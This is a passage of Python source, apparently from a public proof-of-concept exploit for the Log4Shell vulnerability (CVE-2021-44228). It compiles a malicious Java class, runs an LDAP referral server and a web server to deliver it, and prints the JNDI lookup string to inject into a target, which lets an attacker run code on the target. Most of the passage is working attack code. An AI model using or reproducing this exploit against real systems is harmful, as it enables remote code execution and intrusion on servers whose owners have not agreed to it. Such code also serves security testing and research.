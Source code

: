 ```python

    p = Path("Exploit.java")

    try:
        p.write_text(program)
        subprocess.run([os.path.join(CUR_FOLDER, "jdk1.8.0_20/bin/javac"), str(p)])
    except OSError as e:
        print(Fore.RED + f'[-] Something went wrong {e}')
        raise e
    else:
        print(Fore.GREEN + '[+] Exploit java class created success')


def payload(userip: str, webport: int, lport: int) -> None:
    generate_payload(userip, lport)

    print(Fore.GREEN + '[+] Setting up LDAP server\n')

    # create the LDAP server on new thread
    t1 = threading.Thread(target=ldap_server, args=(userip, webport))
    t1.start()

    # start the web server
    print(f"[+] Starting Webserver on port {webport} http://0.0.0.0:{webport}")
    httpd = HTTPServer(('0.0.0.0', webport), SimpleHTTPRequestHandler)
    httpd.serve_forever()


def check_java() -> bool:
    exit_code = subprocess.call([
        os.path.join(CUR_FOLDER, 'jdk1.8.0_20/bin/java'),
        '-version',
    ], stderr=subprocess.DEVNULL, stdout=subprocess.DEVNULL)
    return exit_code == 0


def ldap_server(userip: str, lport: int) -> None:
    sendme = "${jndi:ldap://%s:1389/a}" % (userip)
    print(Fore.GREEN + f"[+] Send me: {sendme}\n")

    url = "http://{}:{}/#Exploit".format(userip, lport)
    subprocess.run([
        os.path.join(CUR_FOLDER, "jdk1.8.0_20/bin/java"),
        "-cp",
        os.path.join(CUR_FOLDER, "target/marshalsec-0.0.3-SNAPSHOT-all.jar"),
        "marshalsec.jndi.LDAPRefServer",
        url,
    ])


def main() -> None:
    init(autoreset=True)
    print(Fore.BLUE + """
[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc
""")

    parser = argparse.ArgumentParser(description='log4shell PoC')
    parser.add_argument('--userip',
                        metavar='userip',
                        type=str,
                        default='localhost',
                        help='Enter IP for LDAPRefServer & Shell')
```